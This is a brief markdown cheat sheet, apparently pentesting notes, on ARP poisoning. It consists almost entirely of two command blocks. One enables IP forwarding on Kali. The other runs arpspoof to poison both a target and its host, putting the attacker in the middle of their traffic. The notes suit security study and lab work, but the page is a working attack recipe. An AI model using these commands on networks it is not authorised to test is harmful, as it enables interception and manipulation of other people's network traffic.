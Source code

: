 # ARP Poisoning
- Enable IP forwarding on Kali
```
echo 1 > /proc/sys/net/ipv4/ip_forward
cat /proc/sys/net/ipv4/ip_forward
```

- Perform ARP spoofing (poison both target and host)
```
arpspoof -i <interface> -t <ip> -r <ip>
```
